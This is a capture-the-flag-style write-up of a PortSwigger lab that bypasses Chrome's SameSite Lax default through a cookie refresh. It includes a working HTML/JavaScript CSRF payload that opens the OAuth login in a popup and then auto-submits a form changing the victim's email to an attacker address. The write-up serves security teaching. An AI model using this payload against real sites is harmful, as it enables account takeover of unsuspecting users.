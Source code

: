 # SameSite Lax bypass via cookie refresh

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh), you'll learn: SameSite Lax bypass via cookie refresh! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: `wiener:peter`

> Note:
>   
> The default [SameSite](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) restrictions differ between browsers. As the victim uses Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test your exploit.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113211243.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113211412.png)

**When we reach to `/`, it'll set a new session cookie for us:**
```
Set-Cookie: session=iGK1ZSaFicxmGf6YQ0vrsOyoBLUGFt1N; Expires=Sat, 14 Jan 2023 13:12:27 UTC; Secure; HttpOnly
```

As you can see, **it doesn't have attribute `SameSite`**, which means **Chrome automatically applies `Lax` restriction by default.**

Although cookies with `Lax` SameSite restrictions aren't normally sent in any cross-site `POST` requests. To avoid breaking single sign-on (SSO) mechanisms, **Chrome doesn't actually enforce these restrictions for the first 120 seconds on top-level `POST` requests**. As a result, there is a two-minute window in which users may be susceptible to cross-site attacks.

Now try to login:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113211918.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113211926.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113211935.png)

As you can see, it's redirecting to sign-in to a social media platform, which commonly is an OAuth-based authenication.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113212035.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113212047.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113212058.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113212315.png)

**When we finished the OAuth flow, it'll assign a new session cookie for us**. Again, no `SameSite` attribute. 

My account page:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113212106.png)

In here, we can update our email address.

**View source page:**
```html
<div id=account-content>
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="">
        <button class='button' type='submit'> Update email </button>
    </form>
</div>
```

As you can see, **the form doesn't have a CSRF token parameter**, which helps to prevent CSRF attack.

Also, when we submit the form, **it'll send a POST request to `/my-account/change-email`, with parameter `email`.**

**Armed with above information, we can craft a CSRF payload to update victim's email address.**

But first, we need to know one thing:

we can trigger the cookie refresh from a new tab so the browser doesn't leave the page before you're able to deliver the final attack. A minor snag with this approach is that browsers block popup tabs unless they're opened via a manual interaction.

**For example, the following popup will be blocked by the browser by default:**
```js
window.open('https://vulnerable-website.com/login/sso');
```

**To get around this, you can wrap the statement in an `onclick` event handler as follows:**
```js
window.onclick = () => { 
    window.open('https://vulnerable-website.com/login/sso');
}
```

This way, the `window.open()` method is only invoked when the user clicks somewhere on the page.

**Now let's construct our payload:**
```html
<html>
    <head>
        <title>CSRF-10</title>
    </head>
    <body>
        <form action="https://0a7b004a03249384c1cfa827009b0081.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>
        <p>Click Me!</p>
        <script>
            window.onclick = () => {
                window.open('https://0a7b004a03249384c1cfa827009b0081.web-security-academy.net/socal-login')
                setTimeout(updateEmail, 3000);
            }

            function updateEmail() {
                document.getElementsByTagName('form')[0].submit();
            }
        </script>
    </body>
</html>
```

Then host it on the exploit server and test it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113214426.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113214440.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113214806.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113214817.png)

When we clicked on somewhere on the exploit page, it'll open another window to `/socal-login`, this will assign a new session cookie, which allows us to have 120 seconds to send a POST request to update the email address.

**Now, let's deliver the payload to victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113214959.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113215004.png)

Nice!

# What we've learned:

1. SameSite Lax bypass via cookie refresh